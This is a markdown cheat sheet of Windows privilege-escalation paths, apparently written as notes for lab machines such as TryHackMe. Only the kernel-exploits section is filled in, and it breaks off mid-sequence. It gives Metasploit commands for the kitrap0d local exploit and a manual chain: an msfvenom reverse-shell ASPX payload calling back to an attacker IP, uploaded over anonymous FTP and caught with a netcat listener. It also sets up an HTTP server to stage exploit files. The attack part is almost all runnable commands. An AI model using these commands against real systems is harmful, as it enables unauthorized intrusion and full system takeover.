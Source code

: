 # Escalation Paths

1. [Kernel Exploits](#kernel-exploits)
2. [Passwords and Port Forwarding](#passwords-and-port-forwarding)
3. [Windows Subsystem for Linux](#windows-subsystem-for-linux)
4. [Impersonation and Potato Attacks](#impersonation-and-potato-attacks)
5. [getsystem](#getsystem)
6. [runas](#runas)
7. [Registry](#registry)
8. [Executable Files](#executable-files)
9. [Startup Applications](#startup-applications)
10. [Service Permissions](#service-permissions)
11. https://www.silver-garcia.com/windows-privilege-escalation/
12. https://www.aldeid.com/wiki/TryHackMe-Windows-PrivEsc-Arena


**Powerup tool** it is a tool that gives us info about all the weaknesses in our target including some processes

## Kernel Exploits

* [Reference for Windows Kernel exploits](https://github.com/SecWiki/windows-kernel-exploits)

```shell
#metasploit kernel exploitation
#exploit suggested by exploit suggester
use exploit/windows/local/ms10_015_kitrap0d

options

set SESSION 9

set LHOST tun0

set LPORT 5555
#gives meterpreter shell
getuid
```

```shell
#manual kernel exploitation
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f aspx > manual.aspx
#create aspx shell

ftp 10.10.10.5
#anonymous login

put manual.aspx

exit

nc -lvnp 4444
#setup listener
#check uploaded aspx shell on web
#we get a reverse shell

whoami
#iis apppool\web

#in attacker machine
#check for vulnerable kernel exploits using windows exploit suggester
#and download exploit files for MS10-059
python3 -m http.server

#in victim shell
```